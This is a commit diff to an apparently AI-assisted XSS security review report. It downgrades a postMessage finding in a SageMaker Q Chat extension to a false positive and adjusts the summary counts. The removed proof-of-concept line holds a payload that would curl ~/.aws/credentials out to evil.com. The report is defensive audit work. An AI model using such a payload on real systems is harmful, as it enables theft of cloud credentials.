

Before and after one commit to StealthyBugs/poc, a Markdown page: XSS_SECURITY_REVIEW_REPORT.md, 2 parts joined by grey strips. Shown at 89% size. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
Downgrade Finding 3 (GenAI postMessage) to false positive after detailed trace
After tracing the real code path:
- The handler receives messages from the Q Chat iframe (same-origin, sandboxed)
- Exploiting it requires a window reference (popup blocker, noopener defaults)
- insertToCursorPosition only inserts code, does NOT auto-execute
- Missing origin check is a code quality issue, not a practical XSS vector

https://claude.ai/code/session_01Xz233oLZBJRUbNJcaeugL4

```diff
--- a/XSS_SECURITY_REVIEW_REPORT.md
+++ b/XSS_SECURITY_REVIEW_REPORT.md
@@ -51,23 +51,14 @@
 
 ---
 
-### Finding 3: Stored XSS via postMessage Without Origin Validation in Amazon Q Chat Extension
+### ~~Finding 3~~ DOWNGRADED TO FALSE POSITIVE: postMessage in Amazon Q Chat Extension
 
 | Field | Detail |
 |---|---|
-| **Title** | postMessage handler in GenAI extension accepts messages from any origin, enables code injection into notebook cells |
-| **XSS Type** | DOM XSS / Stored XSS (content written to notebook cells) |
-| **Severity** | HIGH |
+| **Title** | postMessage handler in GenAI extension lacks `e.origin` check |
+| **Original severity** | HIGH (downgraded to **FALSE POSITIVE / code quality issue**) |
 | **File(s)** | `opt/conda/share/jupyter/labextensions/@amzn/sagemaker_gen_ai_jupyterlab_extension/static/930.cac2298840718603025e.js` (line 1) |
-| **Source** | Cross-origin `postMessage` from any window/iframe |
-| **Sink** | Notebook cell content insertion, token/credential handling |
-| **Sanitization** | None — the `window.addEventListener("message", ...)` handler has no `e.origin` check |
-| **Why defense fails** | A separate event handler on `window` (distinct from the class-based handler that uses `isMessageOriginValid()`) processes messages without any origin validation. Messages can trigger code insertion into active notebook cells. |
-| **Exploit path** | 1. Victim has SageMaker Studio open with the GenAI extension loaded. 2. Attacker's page (opened in another tab or via iframe) sends `window.postMessage(...)` with a crafted payload. 3. The handler processes the message and injects content. |
-| **PoC** | Attacker page: `window.open('https://sagemaker-studio.example.com/...').postMessage({type:'insertCode', code:'import os; os.system("curl evil.com/$(cat ~/.aws/credentials | base64)")'}, '*')` |
-| **Browser viability** | All modern browsers |
-| **Preconditions** | Victim must have SageMaker Studio tab open. Attacker needs reference to the window. |
-| **Remediation** | Add strict `e.origin` validation to all `postMessage` handlers. Use the existing `isMessageOriginValid()` function. |
+| **Why downgraded** | After detailed trace, this handler is designed to receive messages from the Q Chat iframe (`client.html`), which is loaded same-origin with `sandbox="allow-scripts allow-same-origin"`. The handler processes commands like `insertToCursorPosition`, `aws/chat/sendChatPrompt`, etc. While the missing `e.origin` check is a defense-in-depth gap, **exploiting it requires a window reference to the SageMaker tab** — `postMessage` cannot be sent to a window you don't have a reference to. Getting that reference requires: (a) `window.open()` from the attacker page (blocked by popup blockers, requires user click), (b) `window.opener` (modern browsers default to `noopener` for `<a target="_blank">`), or (c) already running code in a same-origin iframe within JupyterLab (which already implies compromise). Additionally, `insertToCursorPosition` only inserts code into a notebook cell — it does **not** auto-execute it. The user must manually run the cell. This is a code quality issue (origin check should be added) but not a practical standalone XSS vector. |
 
 ---
 
@@ -330,14 +321,14 @@
 
 | Category | Count |
 |---|---|
-| **Confirmed Exploitable XSS** | **12** |
+| **Confirmed Exploitable XSS** | **11** |
 | Critical severity | 1 |
-| High severity | 3 |
+| High severity | 2 |
 | Medium-High severity | 1 |
 | Medium severity | 4 |
 | Low-Medium severity | 2 |
 | Medium (architectural/by-design) | 1 |
-| Rejected false positives | 17 |
+| Rejected false positives | 18 |
 | Directories reviewed | 15+ top-level areas |
 | Parallel review agents used | 20 |
 | Agent specializations covered | Server rendering, DOM sinks, stored flows, cookie/URL/hash flows, sanitizer bypasses, rich text/markdown, framework edge cases, postMessage, exploit validation |
```
